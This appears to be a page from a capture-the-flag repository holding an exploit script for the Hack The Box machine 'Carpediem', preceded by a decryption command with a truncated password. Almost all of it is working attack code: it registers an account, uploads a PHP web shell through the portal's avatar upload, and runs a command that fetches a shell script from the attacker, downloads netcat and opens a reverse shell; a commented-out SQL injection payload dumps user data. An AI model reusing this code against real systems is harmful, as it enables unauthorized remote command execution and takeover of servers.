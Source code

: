 ```openssl enc -d -aes-256-cbc -salt -pbkdf2 -in exploit.py.enc -out exploit.py```

Pass: J5tnqs...

```python
from pwn import *
import requests
import netifaces as ni
import threading
from http.server import HTTPServer, SimpleHTTPRequestHandler
import os

login = "http://portal.carpediem.htb/classes/Login.php?f=login_user"
sess = requests.Session()
ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']

def start_server():
    httpd = HTTPServer(('', 80), SimpleHTTPRequestHandler)
    httpd.serve_forever()
t = threading.Thread(target=start_server)
t.daemon=True
t.start()

sh = open('shell.sh', 'w+')
pl = f"curl {ip}/nc -o /tmp/nc\n"
pl += "chmod +x /tmp/nc\n"
pl += f"/tmp/nc {ip} 4444 -e /bin/bash"
sh.write(pl)
sh.close()

#payload = "http://portal.carpediem.htb:80/?p=bikes&s=%27%29%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x71717a7671%2CIFNULL%28CAST%28avatar%20AS%20CHAR%29%2C0x20%29%2C0x7176786271%29%2CNULL%20FROM%20portal.users--%20-"

data = {
        'firstname':'aid',
        'lastname':'aid',
        'contact':'aid',
        'gender':'Female',
        'address':'aid',
        'username':'aid',
        'password':'aid',
        'login_type':'1'
        }

sess.post("http://portal.carpediem.htb/classes/Master.php?f=register", data=data)

data = {"username":"aid", "password":"aid"}
sess.post(login, data=data)

phpsessid = sess.cookies.get_dict()
phpsessid = phpsessid.get('PHPSESSID')

cookies = {'PHPSESSID': phpsessid}
headers = {'Content-Type': 'multipart/form-data; boundary=---------------------------7835878819075197321776660336'}

data = '-----------------------------7835878819075197321776660336\r\nContent-Disposition: form-data; name="id"\r\n\r\n25\r\n-----------------------------7835878819075197321776660336\r\nContent-Disposition: form-data; name="firstname"\r\n\r\naid\r\n-----------------------------7835878819075197321776660336\r\nContent-Disposition: form-data; name="lastname"\r\n\r\naid\r\n-----------------------------7835878819075197321776660336\r\nContent-Disposition: form-data; name="username"\r\n\r\naid\r\n-----------------------------7835878819075197321776660336\r\nContent-Disposition: form-data; name="password"\r\n\r\n\r\n-----------------------------7835878819075197321776660336\r\nContent-Disposition: form-data; name="file_upload"; filename="pic.php"\r\nContent-Type: application/x-php\r\n\r\n<?php echo "<pre>"; system($_GET[cmd]); ?>\r\n\r\n-----------------------------7835878819075197321776660336--\r\n'

r=requests.post('http://portal.carpediem.htb/classes/Users.php?f=upload', cookies=cookies, headers=headers, data=data)

path = r.text[12:-11]
path = path.replace("\\","")

def shellStart():
    context.log_level = 'debug'
    r = listen(4444, timeout=10).wait_for_connection()
    r.sendline(b"whoami")
    r.interactive()
e = threading.Thread(target=shellStart)
e.start()

uri = f"http://portal.carpediem.htb/{path}?cmd=curl http://{ip}/shell.sh|sh"
requests.get(uri)

#cmd = f"curl http://portal.carpediem.htb/{path}?cmd=curl%20http://{ip}/shell.sh%7Csh &"
#os.system(cmd)
```
